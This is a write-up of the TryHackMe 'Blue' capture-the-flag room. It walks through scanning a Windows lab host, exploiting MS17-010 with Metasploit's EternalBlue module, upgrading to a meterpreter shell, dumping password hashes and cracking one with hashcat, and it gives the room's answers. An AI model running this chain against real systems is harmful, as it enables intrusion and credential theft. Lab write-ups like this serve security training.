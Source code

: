 [blue - TryHackMe](https://tryhackme.com/room/blue) | Cya-nyde
==============================================================

## Recon

### How many ports are open with a port number under 1000?

- <code>nmap -p 1-1000 *target ip*</code> to list all open ports under port 1000

```
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

> There are **3** results returned

### What is this machine vulnerable to?

- <code>sudo nmap -sV -script=vuln -T5 -p 135,139,445 *target ip*</code> to run vuln scan on discovered open ports


```
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
MAC Address: 16:FF:CE:C9:65:03 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

```

> The scan shows that the target is vulnerable to **ms17-010**

## Gain Access

- Use `msfconsole` to open *metasploit*

### Find the exploitation code we will run against the machine. What is the full path of the code? 

- `search ms17-010` to list metasploit modules related to this exploit

```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

```

> The full path to the exploit is **exploit/windows/smb/ms17_010_eternalblue**

### Show options and set the one required value. What is the name of this value?

- `use 0` or `use exploit/windows/smb/ms17_010_eternalblue` to use the eternalblue module
- `show options` to list options

> The only empty option that we need to change is **RHOSTS**

## Escalate

### Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use?

- *ctrl + z* to background session after initial foothold on target
- `search type:post shell to meterpreter` to find module to stabilize shell

> The module to use is called **post/multi/manage/shell_to_meterpreter**

### Select this (use MODULE_PATH). Show options, what option are we required to change?

> The option that needs to be set is **SESSION**

- Confirm access level using `getsystem`
   - Should be running as SYSTEM
- List running processes using `ps`
- Migrate to a process with NT AUTHORITY\SYSTEM with `migrate *process id*`

## Cracking

### Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

> <code>hashdump</code> returns three users: Administrator, Guest, and **Jon**

### Copy this password hash to a file and research how to crack it. What is the cracked password?

- `echo "*hash value*" > temp` to create a temp file with the password hash
- `hashcat temp` to crack the password hash in the temp file

> The cracked password returned from *hashcat* is **alqfna22**